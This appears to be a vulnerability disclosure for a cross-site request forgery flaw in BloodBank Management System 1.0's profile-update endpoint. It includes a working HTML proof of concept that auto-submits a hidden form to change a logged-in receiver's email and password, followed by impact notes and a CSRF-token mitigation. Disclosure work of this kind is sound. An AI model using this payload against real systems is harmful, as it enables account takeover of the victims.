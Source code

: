 
## **Affected Version:**
- **BloodBank Management System**: 1.0

## **Vulnerability Information:**
- **Vulnerability Type:** Cross Site Request Forgery (CSRF)
- **Severity:** HIGH
- **Status:** Unpatched

## **Vulnerable Endpoint:**
- **Path:** `/file/updateprofile.php`

## **Vulnerability Description:**
There is a CSRF vulnerability on this endpoint `/file/updateprofile.php` which allows a remote user to update the profile details of a `receiver` including their `email` address and `password` which leads to full account takeover of the `receiver's` account.

Successful exploitation can lead to **unauthorized actions ie modification of data and account takeover** of the `receiver's` account.

---

## **Proof of Concept (PoC):**

Below is an example of a **CSRF POC Attack** that updates the profile details of a logged in `receiver's` account, host the file on an attacker controlled domain in my case i was using `localhost`:

```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF PoC with Account Takeover</title>
</head>
<body>
    <h2>CSRF Proof of Concept with Account Takeover</h2>

    <!-- Form to exploit CSRF vulnerability for updating profile -->
    <form id="csrfForm" action="http://localhost.local/bloodbank/file/updateprofile.php" method="POST">
        <input type="hidden" name="rname" value="attacker">
        <input type="hidden" name="remail" value="attacker@malicious.com">
        <input type="hidden" name="rpassword" value="test1234">
        <input type="hidden" name="rphone" value="0777112233">
        <input type="hidden" name="rcity" value="gotham">
        <input type="hidden" name="bg" value="B-">
        <input type="hidden" name="update" value="Update">
    </form>

    <script>
        // Submit the CSRF form to update profile
        document.getElementById("csrfForm").submit();
   </script>
</body>
</html>





```

---



## **Impact:**
- **Data Manipulation:** Attackers could modify the content displayed to users.
- **Reputational Damage:** Users may lose trust in the system due to malicious behavior.

---

## **Mitigation Recommendations:**
1. **Use CSRF Token** Implement mechanism to deter cross domain access or put `csrf tokens` in your request

---
